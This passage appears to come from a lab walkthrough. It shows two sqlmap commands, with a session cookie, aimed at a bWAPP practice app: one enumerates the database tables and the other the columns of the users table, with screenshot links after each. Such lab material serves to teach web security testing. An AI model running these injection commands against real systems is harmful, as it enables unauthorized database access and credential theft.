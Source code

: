 
```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
```

![SQLMap Tables](assets/image-20230504193116155.png)

- Use `sqlmap` to get a list of columns in the `users` table of the `bWAPP` database

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
```

![SQLMap Columns](assets/image-20230504193222954.png)

